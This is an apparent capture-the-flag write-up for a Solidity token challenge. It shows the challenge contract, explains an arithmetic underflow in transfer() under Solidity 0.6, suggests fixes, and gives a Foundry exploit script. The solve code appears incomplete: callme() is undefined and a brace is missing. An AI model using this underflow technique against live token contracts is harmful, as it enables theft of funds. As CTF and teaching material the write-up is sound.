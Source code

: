 ```js
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

import { HCOIN } from "./HCOIN.sol";

contract Setup {
    HCOIN public coin;
    address player;

    constructor() public payable {
        require(msg.value == 1 ether);
        coin = new HCOIN();
        coin.deposit{value: 1 ether}();
    }

    function setPlayer(address _player) public {
      require(_player == msg.sender, "Player must be the same with the sender");
      require(_player == tx.origin, "Player must be a valid Wallet/EOA");
      player = _player;
    }

    function isSolved() public view returns (bool) {
        return coin.balanceOf(player) > 1000 ether; // im rich :D
    }
}
```

**Goal**

The goal of challenge is to make the balance of `player` is greater than 1000 ether.

**Attack**
1. The contract are using solidity version `^0.6.0`
2. In `^0.6.0` solidity version arithmetic operations are done in unchecked mode by default.
3. Means which are vulnerable to Arithmetic Overflow/Underflow issues.
4. Solutions is Pretty Straightforward to call `transfer()` function.

**Mitigation**

Use solidity version `^0.8.0` or SafeMath Library from OpenZeppelin.

**Solve.s.sol**

```js
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

import {Setup, HCOIN} from "../src/Setup.sol";
import {Script,console} from "forge-std/Script.sol";

contract Solve is Script {
    Setup chall = Setup(0xE3Caeda7890b7900B8C36A9D6447DB13018Fd1AD);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        chall.setPlayer(new Attack(chall.coin()).callme());
        console.log(chall.isSolved());
    }
}

contract Attack {
    constructor(HCOIN coin) public {
        coin.transfer(msg.sender, 1001 ether);
        uint256 balance = coin.balanceOf(msg.sender);
        console.log(balance);
    }
```